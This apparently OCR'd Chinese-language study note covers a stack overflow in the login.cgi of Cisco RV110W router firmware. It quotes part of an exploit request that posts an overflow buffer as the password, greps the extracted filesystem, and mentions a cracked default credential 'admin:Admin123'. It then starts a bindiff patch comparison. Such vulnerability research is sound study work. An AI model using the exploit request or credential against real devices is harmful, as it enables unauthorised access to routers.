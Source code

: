 ```python
    begin
      send_request_cgi({
        'uri'     => '/login.cgi',
        'method'  => 'POST',
        'vars_post' => {
              "submit_button": "login",
              "submit_type": "",
              "gui_action": "",
              "wait_time": 0,
              "change_action": "",
              "enc": 1,
              "user": rand_text_alpha_lower(5),
              "pwd": buffer,
              "sel_lang": "EN"
          }
      })    
```

看的出来对应版本的固件存在栈溢出。

根据上面的请求可知login.cgi是有效的，在文件系统中搜索：

```bash
iot@attifyos ~/D/_/squashfs-root> grep -R "login.cgi" * 2>/dev/null
Binary file usr/sbin/httpd matches
www/login.asp:453:<FORM id=frm name=login method=<% get_http_method(); %> action="login.cgi" onKeyDown=chk_keypress(event) autocomplete=off>

#-R 文件递归
#* 2>/dev/null同时将像：" No such file or directory"错误信息
```

这个值可以用cmd5网站查出来(付费)或者用hashcat撞出来，结果是`admin:Admin123`

同时可以知道httpd是一个web程序（？？？）

### bindiff对比---漏洞定位

去思科查询该漏洞的影响：

> ## Affected Products
>
> - Vulnerable ProductsThis vulnerability affects Cisco RV110W Wireless-N VPN Firewall releases earlier than Release 1.2.2.8 and Cisco RV215W Wireless-N VPN Router releases earlier than Release 1.3.1.7.

所以1.2.2.8的版本是修复了，那么用bindiff进行对比。

+ 下载地址：https://www.zynamics.com/software.html
+ 使用：选择bindiff5，安装在IDA(7.x) PRO的目录下。在IDA 得到两个需要对比的文件的.idb文件后选择老的那个文件再用IDA打开，然后ctrl+6

![image-20210803194401082](IOT.assets\image-20210803194401082.png)
